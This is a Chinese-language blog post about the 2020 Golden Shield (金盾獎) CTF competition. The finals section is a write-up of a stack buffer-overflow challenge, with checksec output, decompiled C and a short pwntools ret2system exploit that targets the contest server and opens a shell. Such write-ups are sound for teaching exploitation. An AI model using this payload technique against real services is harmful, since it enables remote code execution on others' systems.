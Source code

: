 ```yaml
---
title: 2020年金盾獎
date: 2020-12-17 21:03:22
tags: 
  - pwn
  - comps
---
```


## 心得寫在前
<!-- more -->
### 10/17 初賽
這是我第一次參加金盾獎

初賽的題目總共是四題，競賽時間是兩小時，然後我想抱怨一下:

官網寫包含很多類別，其中有Misc, 但其實每題都是Misc= = (+forensics)

然後工作人員好像自己也不太懂(?)，好這不重要，反正題目幾乎都是鑑識，我不會QQ

只解了第一題就進決賽xD

### 10/20 決賽
其實當初沒有想到會進決賽，想當然爾，我們是墊底進的Orz

今年的題目有所謂的 “教學題”，就是直接提供解法，但會扣分(400 -> 100)

似乎是怕有人會掛蛋嘛XDDDD

賽中出題者好像不太懂分類(?)，把Web出到Pwn去，然後Reverse = Pwn

最後我們燒雞，我解出一題(唯一的)PWN(假Reverse)，然後隊友開了Crypto_教學題的題示

然後就拿到第三了XDD，直接拿一萬回家

### 決賽
這次我唯一解出的題目是 Reverse_教學題

雖說是reverse啦，但看題敘可以明顯看出是有關Buffer Overflow，我引用一小段:

`…小明發現輸入過長的資料會導致 Segmentation Fault…`
看到這邊大概就有底了，然後再打開Binary:

#### 保護機制
```bash
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
開了NX, 沒開Canary，很明顯是要stack overflow，接著看組語:
#### 分析:
`main()`:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  checkInfo();
  system("exit");
  return 0;
}
```
呼叫了`checkInfo()`, 接著就exit，注意這邊用了`system()`

`checkInfo()`:
```c
void checkInfo()
{
  char password[10]; // [esp+16h] [ebp-412h]
  char account[1024]; // [esp+20h] [ebp-408h]

  memset(account, 0, sizeof(account));
  *(_DWORD *)password = 0;
  *(_DWORD *)&password[4] = 0;
  *(_WORD *)&password[8] = 0;
  printf("Please input account: ");
  fflush(stdout);
  fflush(stdin);
  fgets(account, 10240, stdin);
  if ( strchr(account, 64) )
  {
    printf("account is : ");
    fflush(stdout);
    printf(account);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("account failed");
  }
  fflush(stdout);
  printf("Please input password: ");
  fflush(stdout);
  fflush(stdin);
  fgets(password, 1024, stdin);
  if ( !strcmp(password, "123456") )
  {
    printf("password is : ");
    fflush(stdout);
    printf(password);
    fflush(stdout);
    putchar(10);
  }
  else
  {
    puts("password failed");
  }
  fflush(stdout);
}
```
這邊可以看到`password[10], account[1024]`，但`fgets()`讀了10240，明顯的buffer overflow

指向`system@plt`，接著布置參數就好
#### exploit
```python
#!/usr/bin/env python2
from pwn import *
import pwnlib.elf
context.log_level = 'debug'

e = ELF('./check_passwd')
p = process('./check_passwd')
p = remote('10.3.202.18', 6666)

payload = '\x00'*1036
payload += p32(e.symbols['system'])
payload += p32(e.symbols['main'])
payload += p32(e.search('sh').next())

p.sendlineafter(':', payload)
#p.sendline('A')

p.interactive()
p.close()
```